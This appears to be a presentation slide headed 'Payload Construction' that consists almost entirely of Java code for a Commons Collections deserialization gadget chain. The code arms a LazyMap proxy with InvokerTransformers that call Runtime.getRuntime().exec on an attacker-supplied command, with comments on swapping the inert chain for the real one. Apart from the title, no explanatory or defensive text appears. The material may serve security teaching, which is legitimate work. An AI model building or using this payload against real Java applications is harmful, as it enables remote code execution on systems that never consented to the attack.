

# Payload Construction
final String[] execArgs = new String[] { command };
final Transformer transformerChain = new ChainedTransformer(  // inert chain for setup
	new Transformer[]{ new ConstantTransformer(1) });
 final Transformer[] transformers = new Transformer[] {  // real chain for after setup
		new ConstantTransformer(Runtime.class),
		new InvokerTransformer("getMethod", new Class[] {
			String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
		new InvokerTransformer("invoke", new Class[] {
			Object.class, Object[].class }, new Object[] {	null, new Object[0] }),
		new InvokerTransformer("exec", new Class[] { String.class }, execArgs),
		new ConstantTransformer(1) };

final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
return handler;
23